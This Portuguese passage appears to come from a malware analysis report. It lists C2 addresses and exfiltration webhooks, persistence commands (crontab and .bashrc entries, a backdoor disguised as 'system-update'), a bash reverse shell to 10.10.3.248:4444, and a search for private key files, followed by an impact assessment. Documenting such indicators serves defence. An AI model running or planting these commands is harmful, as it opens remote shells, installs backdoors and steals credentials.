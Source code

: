 ### Infraestrutura de Rede
```python
MALICIOUS_INFRASTRUCTURE = {
    "c2_servers": [
        "10.10.3.248:1611",
        "10.10.5.2:8000",
        "192.168.1.100:5000"
    ],
    "external_services": [
        "api.ipify.org",
        "httpbin.org/ip",
        "ip-api.com/json/"
    ],
    "webhook_endpoints": [
        "dingtalk.com/robot/send",
        "api.telegram.org/bot"
    ]
}
```

### Comandos de Escalação
```bash
# Comandos hardcoded para privilege escalation
sudo su -
chmod +x /tmp/payload
nohup /tmp/backdoor &
/etc/init.d/ssh start
systemctl enable backdoor.service

# Comandos de persistência
echo "* * * * * /tmp/backdoor" | crontab -
echo "/tmp/backdoor" >> ~/.bashrc
cp /tmp/backdoor /usr/local/bin/system-update
```

### Payloads Embebidos
```python
EMBEDDED_PAYLOADS = {
    "reverse_shell": "bash -i >& /dev/tcp/10.10.3.248/4444 0>&1",
    "privilege_check": "id; whoami; sudo -l",
    "persistence": "echo 'payload' > /etc/systemd/system/update.service",
    "data_collection": "find / -name '*.key' -o -name '*.pem' 2>/dev/null"
}
```

---

## ANÁLISE DE IMPACTO

### Confidencialidade
**ALTO RISCO**
- Exfiltração de credenciais SSH/TLS
- Acesso a bases de dados sensíveis
- Coleta de informações pessoais
- Exposição de propriedade intelectual
